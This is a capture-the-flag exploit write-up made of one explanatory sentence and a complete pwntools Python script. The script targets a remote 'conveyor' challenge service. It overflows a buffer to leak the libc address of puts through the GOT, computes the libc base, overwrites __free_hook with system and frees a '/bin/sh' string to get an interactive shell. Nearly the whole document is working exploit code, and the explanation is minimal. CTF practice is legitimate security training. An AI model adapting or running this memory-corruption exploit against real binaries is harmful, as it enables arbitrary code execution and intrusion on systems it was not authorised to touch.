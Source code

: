 I overwrite `__free_hook` with `system`, then call `free("/bin/sh")`.

```python
from pwn import *

p = 0
free_got = 0x602018
puts_got = 0x602020
libc = ELF('libc.so.6', checksec=False)

def add(name):
	p.sendlineafter('> ', '1')
	p.sendafter('name: ', name)
def start_check():
	p.sendlineafter('> ', '2')
def check(yn,new=b''):
	p.recvline()
	r = p.recvline()[:-1]
	print (hexdump(r))
	p.recvuntil('safe? ')
	p.send(yn+'\x00'+'\n')
	if yn != 'Y' and yn != 'y':
		if new == b'':
			new = r[:6]+b'\x00\x00\n'
		p.sendafter(b'alternative: ', new)
	if len(r) != 6:
		return None
	return u64(r+b'\x00\x00')

def main():
	global p
#	p = process('./conveyor')
	p = remote('jh2i.com', 50020)
	add('xikhud\n')
	add('sh\n')
	start_check()
	check('n', b'A'*120+p64(puts_got))
	puts = check('n')
	base = puts - libc.symbols['puts']
	free_hook = base + libc.symbols['__free_hook']
	system = base + libc.symbols['system']
	log.info('0x%X' % base)
	start_check()
	check('n', b'A'*120+p64(free_hook))
	check('n', p64(system)+b'\n')
	add('/bin/sh\x00\n')

	p.interactive()

if __name__ == '__main__':
	main()
```
